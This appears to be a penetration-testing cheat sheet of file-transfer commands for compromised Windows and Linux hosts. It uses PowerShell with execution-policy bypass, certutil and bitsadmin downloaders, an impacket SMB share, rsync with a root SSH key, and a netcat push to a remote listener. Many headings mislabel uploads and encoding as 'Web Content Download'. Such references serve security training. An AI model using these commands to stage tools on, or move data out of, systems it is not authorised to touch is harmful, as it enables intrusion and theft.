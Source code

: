 USING POWERSHELL -
------------------------------------------------------------------------------------------------------------------


#### 

**Web Content Download**
    
    $webClient.DownloadFile('http://10.10.10.10:80/demo.txt','c:\temp\demo.txt')

**Web Content Download**
    
    powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/demo.txt','c:\temp\demo.txt')

**Web Content Download**
    
    powershell.exe IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10:80/demo.txt','C:\temp\demo.txt')

**Web Content Download**
    
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10/demo.txt','C:\temp\demo.txt')"

**Web Content Download**
    
    powershell.exe Invoke-RestMethod -Uri "http://10.10.10.10/demo.txt" -OutFile "c:\temp\demo.txt"

**Web Content Download**
    
    powershell.exe Invoke-webRequest -Uri "http://10.10.10.10/demo.txt" -OutFile "c:\temp\demo.txt"

**Powershell Wget**
    
    powershell.exe -c wget "http://10.10.14.17/demo.txt" -outfile "c:\temp\demo.txt"

**Powershell Curl**
    
    powershell.exe -c "curl.exe http://10.10.10.10:80/demo.txt c:\temp\demo.txt"

**Powershell IEX**

    echo IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10:80/demo.txt','C:\temp\demo.txt') | powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile
   
**Powershell Direct URI**
    
    iwr -uri http://192.168.45.240/demo.txt -Outfile demo.txt

**Powershell BitsTransfer**

    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'c:\temp\demo.txt'"

**Using file**
    
    echo '$storageDir = $pwd' > wget.ps1
    echo '$webclient = New-Object System.Net.WebClient' >> wget.ps1
    echo '$url = "http://10.10.10.10/demo.txt"' >> wget.ps1
    echo '$file = "c:\temp\demo.txt"' >> wget.ps1
    echo '$webclient.DownloadFile($url, $file)' >> wget.ps1

    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
------------------------------------------------------------------------------------------------------------------
USING CMD - 
------------------------------------------------------------------------------------------------------------------

**Web Content Download**
    
    powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/demo.txt','c:\temp\demo.txt')

**Web Content Download**

    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'C:\temp\demo.txt'"

**Web Content Download**
    
    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.DownloadFile('http://10.10.10.10:80/demo.txt','c:\temp\demo.txt')"

**Web Content Download**
    
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10/demo.txt','C:\temp\demo.txt')"

------------------------------------------------------------------------------------------------------------------
USING CERTUTIL - 
------------------------------------------------------------------------------------------------------------------

**Web Content Download**
    
    certutil.exe -urlcache -split -f "http://10.10.10.10/demo.txt" demo.txt

**Web Content Download**

    certutil.exe -encode c:1.txt out.b64 & more .\out.b64

------------------------------------------------------------------------------------------------------------------
USING SMB - 
------------------------------------------------------------------------------------------------------------------

**SMB SERVER -**

**Start normal SMB Server**
    
    impacket-smbserver share .

**If version error**
    
    impacket-smbserver -smb2support share .

**Use authenticated servers if file transfer is long**

    impacket-smbserver share -username user -password 123 . -smb2support


**SMB CLIENT -**

**To create authenticated session**
    
    net use \\10.10.10.10 /u:"user" "123"

**Web Content Download**
    
    copy \\10.10.10.10\share\demo.txt c:\temp\demo.txt  
------------------------------------------------------------------------------------------------------------------
USING SSH - 
------------------------------------------------------------------------------------------------------------------

SCP-

**Web Content Download**
    
    scp /tmp/demo.txt user@10.10.10.10:/tmp/

**Web Content Download**

    scp demo.txt root@10.10.10.10:/root/

RSYNC-

**Web Content Download**
    
    rsync -av /tmp/centos/ root@192.168.1.120:/root/*

**Web Content Download**

    rsync -av -e 'ssh -i /home/user/id_rsa' root@10.10.10.10:/root/* /tmp/demo/

**Web Content Download**

    rsync -av --port 22 -e 'ssh -i /home/user/id_rsa' root@10.10.10.10:/root/* /tmp/demo/
------------------------------------------------------------------------------------------------------------------
USING WinRM - 
------------------------------------------------------------------------------------------------------------------

**Web Content Download**
    
    download demo.txt
------------------------------------------------------------------------------------------------------------------
USING BITSADMIN - 
------------------------------------------------------------------------------------------------------------------

**Web Content Download**
    
    bitsadmin /transfer n http://10.10.10.10/demo.txt C:\temp\demo.txt

**Web Content Download**
    
    bitsadmin /transfer evil /download /priority high http://10.10.10.10:80/demo.txt c:\temp\demo.txt

**Web Content Download**
    
    powershell.exe -c Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.10/demo.txt" -Destination "C:\temp\demo.txt"
------------------------------------------------------------------------------------------------------------------
USING NC / NETCAT - 
------------------------------------------------------------------------------------------------------------------

**Web Content Download**
    
    nc.exe -nlvp 443 > demo.txt

**Web Content Download**
    
    nc -v 10.10.10.10 443 < demo.txt
------------------------------------------------------------------------------------------------------------------
